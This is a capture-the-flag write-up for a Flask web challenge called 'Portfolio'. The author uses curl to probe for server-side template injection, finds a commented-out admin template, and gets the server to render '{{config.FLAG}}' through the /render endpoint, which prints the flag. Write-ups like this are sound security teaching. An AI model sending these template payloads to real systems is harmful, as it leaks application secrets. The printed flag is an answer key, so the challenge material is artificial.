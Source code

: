 # Portfolio
Web, 150 points

## Description

> Check out my development portfolio! I'm just getting started, so don't be too mean :(


## Solution

We visit the attached site and see:

```html
  <body>
    <header>
      <h1 align="center">Welcome to my dev portfolio!</h1>
      <h3 align="center">check out my cool projects</h3>
    </header>
    <br>
    <h2> Projects </h2>
    <ul> 
      <li><a href="/hello/name">Custom greeting</a></li>
      <li><a href="/render.html">Dynamic page rendering</a></li>
    </ul>
  </body>
```

The first link leads to a very simple page:
```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/hello/name" && echo
<html>
  <head>
    <title>Templating in Flask</title>
  </head>
  <body>
    <h1>Hello name!</h1>
    <p>Welcome to the world of Flask!</p>
  </body>
</html>
```

Such challenges usually lead to [template injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), so let's try that here:
```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/hello/\{\{4*4\}\}" && echo
<html>
  <head>
    <title>Templating in Flask</title>
  </head>
  <body>
    <h1>Hello {{4*4}}!</h1>
    <p>Welcome to the world of Flask!</p>
  </body>
</html>
```

The template was not evaluated, so this page isn't vulnerable to such an attack. 

Moving on, we have we have the "Dynamic page rendering" page:
```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/render.html"  && echo
<form action="/render" method="post">
  Page to load:<br>
  <select name="template">
    <option value="templates/matches.html">My favorite matches</option>
    <option value="templates/teams.html">Some cool tag teams</option>
    <!--    <option value="templates/admin.html">admin</option>-->
  </select>
  <input type="submit" value="Submit">
</form>
```

Let's try to visit all three options (including the commented out admin page):
```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/render" -X POST  --data "template=templates/matches.html" && echo
Some cool matches
root@kali:~# curl "http://archive.sunshinectf.org:19009/render" -X POST  --data "template=templates/teams.html" && echo
some cool teams
root@kali:~# curl "http://archive.sunshinectf.org:19009/render" -X POST  --data "template=templates/admin.html" && echo

Hi there!
```

Nothing much. However, if we inspect "admin.html" directly, we get an interesting result:
```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/templates/admin.html" && echo
{% if config.DEBUG %}
{{config.FLAG}}
{% endif %}
Hi there!
```

In debug mode, the flag would have been outputted. Can we trigger debug mode? Not in an apparent way. However, we can use the "hello" page we saw earlier in order to create a template that would reveal the flag:

```console
root@kali:~# curl "http://archive.sunshinectf.org:19009/hello/\{\{config.FLAG\}\}" && echo
<html>
  <head>
    <title>Templating in Flask</title>
  </head>
  <body>
    <h1>Hello {{config.FLAG}}!</h1>
    <p>Welcome to the world of Flask!</p>
  </body>
</html>
root@kali:~# curl "http://archive.sunshinectf.org:19009/render" -X POST  --data "template=hello/{{config.FLAG}}" && echo
<html>
  <head>
    <title>Templating in Flask</title>
  </head>
  <body>
    <h1>Hello sun{5l33333p_15_f0r_7h3_w34k}!</h1>
    <p>Welcome to the world of Flask!</p>
  </body>
</html>
```